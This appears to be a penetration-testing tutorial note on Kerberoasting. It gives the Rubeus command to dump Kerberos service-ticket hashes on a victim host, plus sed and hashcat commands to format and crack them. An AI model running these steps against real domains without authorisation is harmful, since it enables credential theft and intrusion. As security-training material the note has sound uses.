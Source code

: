 ## Kerberoasting w/ Rubeus & Impacket

### Kerberoasting #1 - Rubeus&#x20;

This will dump the Kerberos hash of any kerberoastable users.

**Victim**

```
cd Downloads
Rubeus.exe kerberoast
```

<figure><img src="../../.gitbook/assets/image (12) (8).png" alt=""><figcaption></figcaption></figure>

Copy the hashes from the command prompt onto the attacker machine and put it into a .txt file so we can crack it with hashcat. Below command removes all the tabs and formats it properly for hashcat. If you don't format it properly than hashcat will error out.

**Kali**

```
cat hashes.txt | sed 's/[[:space:]]//g' |tr -d '\n' | sed 's/$krb5tgs$23$*/\n&/g'  > hash.txt
hashcat -m 13100 -a 0 hash.txt Pass.txt
```

Hashcat found the passwords for both of the hashes.

```
hashcat -m 13100 -a 0 hash.txt Pass.txt --show
```

<figure><img src="../../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>
